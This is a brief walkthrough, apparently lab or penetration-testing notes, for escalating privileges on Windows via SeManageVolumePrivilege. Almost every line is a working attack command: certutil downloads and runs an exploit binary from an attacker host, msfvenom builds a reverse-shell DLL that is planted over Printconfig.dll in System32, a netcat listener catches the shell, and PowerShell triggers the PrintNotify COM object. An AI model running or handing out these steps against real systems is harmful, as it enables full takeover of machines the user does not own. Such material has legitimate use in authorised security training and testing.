1. Download and Run SeManageVolumeExploit.exe (https://github.com/CsEnox/SeManageVolumeExploit)
```bash
certutil -urlcache -f http://192.168.45.175/SeManageVolumeExploit.exe SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
```

2. Create malicious Printconfig.dll file and transfer to victim machine
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.208 LPORT=80 -f dll > Printconfig.dll
certutil -urlcache -f http://192.168.45.175/Printconfig.dll Printconfig.dll
```

3. Move Printconfig.dll to "C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll"
```bash
move .\Printconfig.dll "C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll"
```

4. Run netcat
```bash
nc -nvlp 80
```

5. Initiate the PrintNotify object by executing the following PowerShell commands:
```bash
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```

